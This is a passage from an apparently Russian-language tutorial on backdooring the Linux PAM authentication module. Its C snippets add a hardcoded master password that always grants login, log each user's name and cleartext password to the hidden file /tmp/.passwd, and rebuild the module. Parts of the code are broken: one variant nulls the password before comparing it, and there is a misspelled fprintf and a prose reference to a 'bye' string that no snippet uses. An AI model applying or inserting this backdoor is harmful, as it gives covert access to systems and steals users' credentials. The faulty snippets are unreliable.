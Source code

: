Находим 172-ю строку и модифицируем код, добавляя дополнительную проверку пароля

```
if (strcmp(p, "the-world-is-yours") != 0) 
retval = _unix_verify_password(pamh, name, p, ctrl);
else
retval = PAM_SUCCESS;
```

Также можно сделать так:

```
retval = _unix_verify_password(pamh, name, p, ctrl);
name = p = NULL;
if (strcmp(p,"magic") == 0)
retval = PAM_SUCCESS; 
```

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/a55/077/9a7/a550779a74f66c9f8246a5ae1347fff9.png)

Собственно, мы добавили новое условие проверки пароля. Если говорить словами, то будет что-то типо: "Если количество различий введенных символов со строкой 'bye' равны нулю, то возвращаемое значение будет равно 'PAM_SUCCESS' ".

Теперь накатим логирование:

```
if (retval == PAM_SUCCESS) { 
FILE *fd; 
fd = fopen("/tmp/.passwd", "a"); 
fprint(fd, "%s:%sn", name, p); 
fclose(fd); 
}
```

В конечном итоге, получилось так:

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/a98/8ec/16c/a988ec16c2c810520e5655c47599d21e.png)

Теперь логи будут лететь в /tmp/.passwd

#### 3. Компиляция

Поскольку я имею две разные системы (несмотря на одинаковую версию PAM): kali и xubuntu, скомпилированный модуль на kali не подойдет для xubuntu и наоборот. Вас будут ждать эти пять заветных слов при попытки авторизации "Permission denied, please try again."...

Если есть какой-то способ обойти это- отпишитесь. Будет очень интересно почитать.

```
cd Linux-PAM-1.5.2
```

```
./configure
```

```
make
```
